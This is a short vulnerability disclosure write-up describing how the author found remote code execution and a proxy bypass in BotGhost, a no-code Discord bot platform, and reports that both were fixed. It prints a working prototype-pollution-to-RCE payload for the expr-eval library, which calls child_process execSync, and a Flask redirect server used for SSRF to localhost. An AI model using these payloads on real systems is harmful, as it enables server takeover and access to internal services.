




## Get evaluated (and redirected)
*Fixed on: 27/03/2026*

[Website](https://botghost.com) | [Discord](https://discord.gg/botghost)

BotGhost is a website for creating bots without pretty little knowledge of coding, basically a no-code platform for Discord bots. It became popular since the case that [it had a vulnerability](https://www.youtube.com/watch?v=lUiLBBab1RY) where you can get a bot token under non rare conditions and then [Discord for some reason tried to take it down](https://www.youtube.com/watch?v=gKtqAYbGvPs)

On the action blocks available to add bot functionality, there was one called `Math` that as his name suggests, is for evaluating math expressions:



Playing with it, I found a strange error message that is invoked when you put weird things: "Unexpected variable ... [snip]", and doing some OSINT I came to this library, with this issue:



Searching for vulnerabilities, I saw [CVE-2025-13204](https://huntr.com/bounties/1-npm-expr-eval), a prototype pollution flaw... and by testing the PoC with:

```js
Object=constructor;a=Object.fromEntries([["owo","123"]]);Object.assign(__proto__, a); var + 1
```

The bot didn't answer, but when I tried to use it again:



So it was vulnerable. Then researching more about this vulnerability, I found that there is a way to get RCE by making the function constructor globaly available and then calling it:

```js
o = constructor; o.assign(__proto__, o.getOwnPropertyDescriptor(o.getPrototypeOf(toString), "constructor")); f = value("return global.process.mainModule.constructor._load(`child_process`).execSync(`<cmd>`).toString()"); f(); x + 2
```

I put that with a CMD that sends a `curl` request to a canary token, and I got a callback when I used the command:



> Note that BotGhost uses AWS (Amazon Web Services).

Also; on another block called "Send an API request", I noticed that you were able to send any type of HTTP request, so I decided to look deeper on what was doing. They were using axios/0.14.1 and that was vulnerable to `CVE-2020-28168`, allowing me to bypass their proxy with just this dumb server:

```python
from flask import Flask, redirect

app = Flask(__name__)

@app.route("/")
def index():
    return redirect("http://127.0.0.1/", 301)


app.run("0.0.0.0", 8000)
```

Contacting the devs was troublesome, but when they got my messages it was solved quickly.

